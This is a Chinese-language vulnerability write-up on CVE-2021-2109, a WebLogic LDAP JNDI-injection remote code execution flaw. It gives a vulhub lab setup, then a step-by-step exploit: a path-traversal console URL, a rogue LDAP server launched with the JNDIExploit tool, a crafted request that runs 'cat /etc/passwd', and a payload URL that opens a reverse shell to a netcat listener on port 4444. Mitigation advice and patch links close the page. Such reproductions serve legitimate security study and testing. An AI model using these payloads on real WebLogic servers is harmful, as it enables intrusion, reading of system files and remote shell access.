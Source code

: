 # CVE-2021-2109 WebLogic LDAP 远程代码执行漏洞

## Description

2020 年 11 月 19 日，阿里云安全向 Oracle 官方报告了 Weblogic Server 远程代码执行漏洞，漏洞编号为 CVE-2021-2109。攻击者可通过 LDAP 协议，实现 JNDI 注入攻击，加载远程 CodeBase 下的恶意类，最后执行任意代码从而控制服务器。

## 漏洞影响

- WebLogic Server 10.3.6.0.0
- WebLogic Server 12.1.3.0.0
- WebLogic Server 12.2.1.3.0
- WebLogic Server 12.2.1.4.0
- WebLogic Server 14.1.1.0.0

## Explanation of exploit; PoC

### 运行靶场环境

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 `http://your-ip:7001`，看到如下页面即为靶场正常运行。

![](images/cve-2021-2109-1.png)

### 漏洞复现

访问 URL: `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal`, 可以看到如下页面，且在影响范围内则可能存在漏洞。

![](images/cve-2021-2109-2.png)

下载漏洞攻击需要的一款用于 JNDI 注入利用的工具，该工具大量参考/引用了 Rogue JNDI 项目的代码，支持直接植入内存 shell，并集成了常见的 bypass 高版本 JDK 的方式，适用于与自动化工具配合使用。

![](images/cve-2021-2109-3.png)

- 使用 `java -jar JNDIExploit.jar -h` 查看参数说明，其中 `--ip` 参数为必选参数
- 使用 `java -jar JNDIExploit.jar -u` 查看支持的 LDAP 格式

在 kali 运行工具启动 LDAP 服务，`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xxx.xxx.xxx.xxx`，其中 `xxx.xxx.xxx.xxx` 为 kali 的 IP 地址。

![](images/cve-2021-2109-4.png)

**RCE**

刷新 `http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal` 页面，并通过 Burp Suite 拦截请求，发送到 Repeater，修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22) `，并添加参数 `cmd` 值为 `cat /etc/passwd`，点击 `Send`，即可看到如下页面，即为成功利用漏洞。

???+ tip "Payload 注意"

    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-5.png)

**反弹 Shell**

先在 kali 监听 4444 端口，`nc -lvvp 4444`

然后在 Burp Suite 中修改 `URL` 为 `/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/ReverseShell/xxx.xxx.xxx.xxx/4444;AdminServer%22)`

???+ tip "Payload 注意"

    `ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho` 这里 LDAP服务器地址第三个分隔符号为 `;`

![](images/cve-2021-2109-6.png)

看到如下页面，即为成功利用漏洞。

![](images/cve-2021-2109-7.png)

## Mitigation

![](images/cve-2021-2109-8.png)

1. 由于是通过 JNDI 注入进行远程代码执行，建议升级 Weblogic Server 运行环境的 JDK 版本；
2. 升级官方安装补丁：[https://www.oracle.com/security-alerts/cpujan2021.html](https://www.oracle.com/security-alerts/cpujan2021.html)

## 参考链接

1. [漏洞分析见](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)
2. [调试分析参考](https://mp.weixin.qq.com/s/WtoUzPEgLlU8jUzvzC75Dg)
3. [Oracle 发布 2021 年 1 月关键补丁更新，修复多个严重漏洞](https://mp.weixin.qq.com/s/gRgrzgkgeehT1DnnlnqQKw)
